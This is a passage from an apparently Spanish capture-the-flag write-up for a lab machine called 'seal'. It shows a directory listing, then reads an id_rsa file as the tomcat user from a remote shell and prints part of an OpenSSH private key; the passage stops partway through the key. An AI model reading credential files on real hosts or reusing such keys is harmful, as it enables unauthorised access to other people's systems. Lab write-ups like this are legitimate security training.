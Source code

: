 ```console
dashboard/images/icons/font/fontawesome-webfont3294.ttf                                                                                                                                                                                       
dashboard/images/icons/font/fontawesome-webfontd41d.eot                                                                                                                                                                                       
dashboard/images/icons/font/fontawesome-webfont3294.eot                                                                                                                                                                                       
dashboard/images/icons/font/fontawesome-webfont3294.woff                                                                                                                                                                                      
dashboard/css/theme.css                                                                                                                                                                                                                       
dashboard/uploads/id_rsa                                                                                                                                                                                                                      
dashboard/bootstrap/css/                                                                                                                                                                                                                      
dashboard/bootstrap/js/                                                                                                                                                                                                                       
dashboard/bootstrap/img/                                                                                                                                                                                                                      
dashboard/bootstrap/css/bootstrap-responsive.min.css                                                                                                                                                                                          
dashboard/bootstrap/css/bootstrap.min.css                  
dashboard/bootstrap/js/bootstrap.min.js                    
dashboard/bootstrap/img/glyphicons-halflings.png                                                                       
dashboard/bootstrap/img/glyphicons-halflings-white.png     
```

Y podemos leer la clave privada.
```console
(remote) tomcat@seal:/tmp/dashboard/uploads$ cat id_rsa                                                                
-----BEGIN OPENSSH PRIVATE KEY-----                        
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn                                                 
NhAAAAAwEAAQAAAYEAs3kISCeddKacCQhVcpTTVcLxM9q2iQKzi9hsnlEt0Z7kchZrSZsG                                                 
DkID79g/4XrnoKXm2ud0gmZxdVJUAQ33Kg3Nk6czDI0wevr/YfBpCkXm5rsnfo5zjEuVGo                                                 
MTJhNZ8iOu7sCDZZA6sX48OFtuF6zuUgFqzHrdHrR4+YFawgP8OgJ9NWkapmmtkkxcEbF4                                                 
n1+v/l+74kEmti7jTiTSQgPr/ToTdvQtw12+YafVtEkB/8ipEnAIoD/B6JOOd4pPTNgX8R                                                 
MPWH93mStrqblnMOWJto9YpLxhM43v9I6EUje8gp/EcSrvHDBezEEMzZS+IbcP+hnw5ela                                                 
duLmtdTSMPTCWkpI9hXHNU9njcD+TRR/A90VHqdqLlaJkgC9zpRXB2096DVxFYdOLcjgeN                                                 
3rcnCAEhQ75VsEHXE/NHgO8zjD2o3cnAOzsMyQrqNXtPa+qHjVDch/T1TjSlCWxAFHy/OI                                                 
PxBupE/kbEoy1+dJHuR+gEp6yMlfqFyEVhUbDqyhAAAFgOAxrtXgMa7VAAAAB3NzaC1yc2                                                 
EAAAGBALN5CEgnnXSmnAkIVXKU01XC8TPatokCs4vYbJ5RLdGe5HIWa0mbBg5CA+/YP+F6                                                 
56Cl5trndIJmcXVSVAEN9yoNzZOnMwyNMHr6/2HwaQpF5ua7J36Oc4xLlRqDEyYTWfIjru                                                 
```